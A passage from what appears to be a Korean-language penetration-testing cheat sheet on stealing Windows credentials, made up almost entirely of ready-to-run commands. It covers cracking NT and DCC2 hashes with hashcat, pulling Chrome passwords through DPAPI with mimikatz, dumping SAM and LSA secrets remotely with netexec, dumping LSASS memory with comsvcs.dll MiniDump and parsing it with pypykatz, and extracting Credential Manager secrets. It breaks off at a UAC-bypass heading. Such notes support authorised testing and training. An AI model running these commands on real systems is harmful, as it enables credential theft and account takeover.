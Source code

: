```
※ secretsdump SAM Hash 출력 : (uid:rid:lmhash:nthash)

#### Hashcat으로 Cracking Hashes (NT Hash)
```hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt```

### DCC2 hashes
- `hklm\security`, PBKDF2를 사용하기 때문에 NT 해시보다 해독하기 어려움<br/>
```$ hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt```

### DPAPI
- DPAPI 암호화된 자격 증명(IE, Chrome, Outlook 등)은 Impacket의 [dpapi](https://github.com/fortra/impacket/blob/master/examples/dpapi.py), [mimikatz](https://github.com/gentilkiwi/mimikatz)와 같은 도구를 사용([DonPAPI](https://github.com/login-securite/DonPAPI) : 원격)<br/>
```
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
```

### Remote Dumping
```netexec smb 192.168.1.1 --local-auth -u <user> -p <password> --lsa```<br/>
```netexec smb 192.168.1.1 --local-auth -u <user> -p <password> --sam```<br/>

<br/><br/>
## Attacking Lsass
### PowerShell을 이용한 LSASS 프로세스 덤프
```
Get-Process lsass
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
```

### Pypykatz를 사용하여 자격 증명 추출
```pypykatz lsa minidump ./lsass.dmp```

### Cracking the NT Hash with Hashcat
```sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt```

## Attacking Windows Credential Manager
### cmdkey로 자격 증명 열거
```C:\>cmdkey /list```
- SRV01\mcharles 사용자로 가장 : ```C:\>runas /savecred /user:SRV01\mcharles cmd```

### Mimikatz를 사용하여 자격 증명 추출
```
C:\Users\Administrator\Desktop> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::credman
```
- 저장된 자격 증명을 열거하고 추출하는 데 사용할 수 있는 다른 도구 : [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) , [LaZagne](https://github.com/AlessandroZ/LaZagne) , [DonPAPI](https://github.com/login-securite/DonPAPI) 등

- UAC 우회(2가지 중 선택)
```
# fodhelper.exe 사용:

